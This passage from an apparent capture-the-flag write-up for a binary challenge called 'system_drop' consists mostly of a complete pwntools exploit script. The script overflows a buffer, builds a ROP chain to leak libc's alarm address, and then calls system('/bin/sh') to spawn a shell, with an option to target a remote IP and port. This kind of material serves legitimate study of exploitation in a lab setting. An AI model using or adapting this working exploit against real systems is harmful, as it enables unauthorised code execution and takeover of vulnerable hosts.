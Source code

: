 First,we send 0x28 bytes of garbage (as mentioned before), Write ```/bin/sh``` to rdi which is the file name, and set on ```rsi``` and ```rdx``` 0.

So let's write all together in [exploit.py](exploit.py):
```python
from pwn import *

elf = ELF('./system_drop')
libc = elf.libc

if args.REMOTE:
    p = remote('46.101.23.157',31121)
else:
    p = process(elf.path)

# gadgets
_start = 0x400450 # gdb: p _start
pop_rdi = 0x4005d3 #0x4005d3 # ROPgadget
pop_rsi_r15 = 0x4005d1 # ROPgadget
syscall = 0x40053b # gdb: disassemble _syscall
read = 0x400440 # gdb: disassemble main


leak_buff = b'A'*0x28 # Calculated offset
leak_buff += p64(pop_rdi)
leak_buff += p64(1) # fd=stdout=1
leak_buff += p64(pop_rsi_r15)
leak_buff += p64(elf.got['alarm']) # we want to leak alarm function address
leak_buff += p64(0)
leak_buff += p64(syscall) # call syscall with the arguments above
leak_buff += p64(_start) # return back to main

p.send(leak_buff)
leak_alarm = u64(p.recv(8))
log.info('Leaked alarm: %s' % hex(leak_alarm))
libc.address = leak_alarm - libc.sym.alarm
system = libc.sym.system
bin_sh = libc.search(b"/bin/sh").__next__()
log.info('Libc system @ %s' % hex(system))
log.info('Libc bin_sh @ %s' % hex(bin_sh))
p.recv()


# shell buffer
shell_buf = b'A'*40
shell_buf += p64(pop_rdi)
shell_buf += p64(bin_sh)
shell_buf += p64(pop_rsi_r15)
shell_buf += p64(0)
shell_buf += p64(0)
shell_buf += p64(system)

p.send(shell_buf)

p.interactive()
```
